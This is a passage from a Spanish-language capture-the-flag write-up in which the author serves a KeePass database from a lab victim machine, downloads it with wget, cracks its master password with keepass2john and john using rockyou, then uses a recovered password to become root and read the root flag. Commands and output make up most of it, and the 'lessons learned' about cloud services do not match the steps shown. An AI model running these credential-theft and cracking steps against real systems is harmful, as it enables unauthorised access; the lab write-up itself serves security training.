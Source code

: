 Sabiendo que existe el binario de python en el sistema:
```bash
which python3
/usr/bin/python3
```

Nos montamos un servidor python para dejar accesible este archivo: **credentialsDatabase.kdb** desde la maquina victima
```bash
python3 -m http.server 8080
```

Ahora desde nuestra maquina atacante nos descargamos el archivo:
```bash
wget http://172.17.0.2:8080/credentialsDatabase.kdb
```

Ahora lo creakearemos con **john** de la siguiente manera: Convertimos a **hash**
```bash
keepass2john credentialsDatabase.kdb > hash.txt
```

Ahora realizamos ataque de fuerza bruta:
```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

Tenemos la credencial:
```bash
Press 'q' or Ctrl-C to abort, almost any other key for status
EMINEM           (credentialsDatabase.kdb)
```

Ahora procedmeos a abrir el archivo con **keypass** desde un sistema **windows** 
ingresamos la clave maestra: **EMINE** para despues obtener las siguientes credencilaes:
```bash
Credenciales Pablo: RMeEdDPKbgFWmPnQHVC8
```

Ahora probamos esta contrasena como usuario **root**
```bash
# Comando para escalar al usuario: ( root )
su root # ( RMeEdDPKbgFWmPnQHVC8 )
```

---

## Evidencia de Compromiso
Flags **root**
```bash
root@26f0e918c5d7:/etc/keepass# cat /root/root.txt 
16ceffb6b5f596855037e8ab1718b75f
```

```bash
# Captura de pantalla o output final
root@26f0e918c5d7:/etc/keepass# whoami
root
```

---

## Lecciones Aprendidas
1. Aprendimos de servicios en la nube
2. Aprendimos a enumerar servicios en la nube para obtenr informacion valisoa